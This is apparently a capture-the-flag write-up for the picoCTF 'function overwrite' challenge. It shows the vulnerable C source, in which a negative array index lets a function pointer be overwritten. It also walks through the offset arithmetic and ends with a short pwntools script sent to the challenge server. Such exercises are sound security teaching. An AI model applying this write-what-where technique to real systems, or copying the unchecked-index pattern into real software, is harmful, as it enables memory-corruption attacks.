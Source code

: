 # function overwrite [Pwn]

Link : [function overwrite](https://play.picoctf.org/practice/challenge/272?category=6&originalEvent=70&page=2)

Source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```


![checksec](datas/fovchecksec.png)

> [!NOTE]  
> When I read the code, I realized that *check* points to *hard_checker*.
> 
>To exploit it, you would have to point *check* to *easy_checker*.
>
> Then, you have to fill *story* with values whose sum is equal to *1337*


*story* could be *abcdefghijklk*, the sum is indeed equal to *1337*.

To point *check* to *easy_checker*, I thought of  [Write-what-where Condition](https://www.martellosecurity.com/kb/mitre/cwe/123/)

*vuln()* fonction

```C
......
if (num1 < 10)
{
  fun[num1] += num2;
}
.....
```

We will use the integer array *fun* to access *check* in order to point it to *easy_checker*.

We will use the index num1 of the array *fun* to access *check* and num2 to modify its value.

First, we determine the offset between *fun* and *check* for *num1*.

![funcheck](datas/funcheck.png)

```
0x0804c040  check
0x0804c080  fun
```

```python
0x0804c080 - 0x0804c040 = 64
fun - check = 64
fun - 64 = check
```

To access *check* you have to subtract 64 from the address of *fun*.

As num1 is of type int, **num1 = -64/sizeof(int)**

![check](datas/check.png)

Second, we point *check* to *easy_checker*.

*check* points to *hard_checker*

To point it to *easy_checker*, we must first determine the offset between *hard_checker* and *easy_checker*.

```python
0x8049436 - 0x80492fc = 314
hard_checker - easy_checker = 314
hard_checker - 314 = easy_checker
```
So, to point *check* to *easy_checker* we have to subtract 314 from the address of *hard_checker*.
As *check* contains the address of *hard_checker*, we decrease its value by 314.

**num2 = -314**


Exploit:

```python
from pwn import *

sh = remote("saturn.picoctf.net",53163)
print(sh.recv().decode())
sh.sendline(b"abcdefghijklk")
print(sh.recv().decode())
sh.sendline(b"-16 -314")
print(sh.recv().decode())
```

Result:

![flag](datas/foverwrite.png)
